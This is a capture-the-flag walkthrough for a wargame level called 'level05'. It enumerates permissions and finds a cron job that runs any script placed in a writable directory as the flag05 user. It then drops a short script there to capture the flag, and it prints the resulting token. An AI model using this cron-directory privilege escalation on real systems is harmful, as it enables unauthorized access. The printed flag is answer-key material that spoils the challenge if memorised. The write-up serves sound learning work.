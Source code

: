 # Level05 : find flag05

## Tutorial

### 1. Checking `env` variables, groups, files etc.

- command `/usr/bin/env` => `MAIL=/var/mail/level05`
- command `groups` for `level05` user => `level05 users`
- command `ls -l $(find / -user flag05 2> /dev/null)` :
```
-rwxr-x---  1 flag05 flag05 94 Mar  5  2016 /rofs/usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```
- command `getfacl /usr/sbin/openarenaserver` : we can see below that `level05` user has `r` rights
```
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

### 2. Checking `/var/mail` folder

- command `ls -l /var/mail/` => `-rw-r--r--+ 1 root mail 58 Apr  9 15:59 level05`
- command `cat /var/mail/level05` => `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`, this launches the command `/usr/sbin/openarenaserver` as user `flag05` (`-` is to login) every 1/2 a minute (`*/2 * * * *`)
- command `getfacl /var/mail/level05` :
```
# file: var/mail/level05
# owner: root
# group: mail
user::rw-
user:flag05:r--
group::r--
mask::r--
other::r--
```
- Conclusion : we can see that user `flag05` has `r` rights to `/var/mail/level05` which looks like a cron file. We can't see the cron of user `flag05` (except if `root` or `flag05`)
- Notes : command `cat /etc/crontab`, system-wide crontab, see more in Additional resources

### 3. Checking `/usr/sbin/openarenaserver`

- command `ls -l /usr/sbin/openarenaserver` => `-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver`
- command `getfacl /usr/sbin/openarenaserver` : we can see that user `level05` has `r` permission
```
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```
- command `cat /usr/sbin/openarenaserver` 
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
 - Conclusion : this cron reads the content of folder `/opt/openarenaserver/` and execute every script with a time limit of 5s, then removes it

### 4. Checking `/opt/openarenaserver/` 

- command `ls -l /opt` => `drwxrwxr-x+ 2 root root 40 Apr 10 14:02 openarenaserver`
- command `getfacl /opt/openarenaserver`
```
# file: opt/openarenaserver
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
```
- Conclusion : we can see that user `level05` has `rwx` permission, we just have to write a script in `/opt/openarenaserver` and check that indeed there is a cron running under user `flag05` (which we can't check because we are user `level05`)

### 5. Write script to get flag05 :

- script : 
```
/bin/getflag > /tmp/flag05
chmod 777 /tmp/flag05
```
- command `cat /tmp/flag05` => `Check flag.Here is your token : viuaaale9huek52boumoomioc`
- We can see that indeed it worked so there is a cronjob run by `flag05`, job done !

## Additional resources

- bash command
  - http://manpagesfr.free.fr/man/man1/bash.1.html
  - https://ss64.com/bash/ulimit.html
- cron
  - https://www.cyberciti.biz/faq/linux-show-what-cron-jobs-are-setup/
  - https://unix.stackexchange.com/questions/119598/as-root-how-can-i-list-the-crontabs-for-all-users
  - https://crontab.guru/every-2-minutes
- su `-c` : `-c` is for launching a command 
  - http://www.linux-france.org/article/man-fr/man1/su-1.html